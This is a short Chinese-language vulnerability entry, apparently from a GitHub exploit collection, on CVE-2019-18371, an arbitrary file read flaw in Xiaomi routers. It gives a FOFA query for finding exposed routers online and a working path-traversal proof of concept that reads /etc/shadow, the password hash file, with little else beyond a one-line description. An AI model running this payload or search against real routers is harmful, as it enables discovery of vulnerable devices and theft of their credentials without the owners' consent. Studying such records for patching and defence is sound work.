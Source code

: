 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

```
小米 路由器
```

## FOFA

```
app="小米路由器"
```

## 漏洞复现

登录页面

![image-20220715110456566](./images/202207151106569.png)

验证POC

```
/api-third-party/download/extdisks../etc/shadow
```

![](./images/202207151106800.png)